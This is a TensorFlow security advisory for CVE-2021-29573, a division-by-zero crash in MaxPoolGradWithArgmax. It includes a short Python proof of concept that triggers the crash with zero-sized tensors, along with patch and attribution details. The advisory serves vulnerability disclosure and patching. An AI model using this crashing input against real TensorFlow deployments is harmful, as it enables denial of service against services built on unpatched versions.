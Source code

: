 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-062.md
## TFSA-2021-062: Division by 0 in `MaxPoolGradWithArgmax`

### CVE Number
CVE-2021-29573

### Impact
The implementation of `tf.raw_ops.MaxPoolGradWithArgmax` is vulnerable to a
division by 0:

```python
import tensorflow as tf

input = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)
grad = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)
argmax = tf.constant([], shape=[0], dtype=tf.int64)
ksize = [1, 1, 1, 1]
strides = [1, 1, 1, 1]

tf.raw_ops.MaxPoolGradWithArgmax(
  input=input, grad=grad, argmax=argmax, ksize=ksize, strides=strides,
  padding='SAME', include_batch_in_index=False)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/279bab6efa22752a2827621b7edb56a730233bd8/tensorflow/core/kernels/maxpooling_op.cc#L1033-L1034)
fails to validate that the batch dimension of the tensor is non-zero, before
dividing by this quantity.

### Patches
We have patched the issue in GitHub commit
[376c352a37ce5a68b721406dc7e77ac4b6cf483d](https://github.com/tensorflow/tensorflow/commit/376c352a37ce5a68b721406dc7e77ac4b6cf483d).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
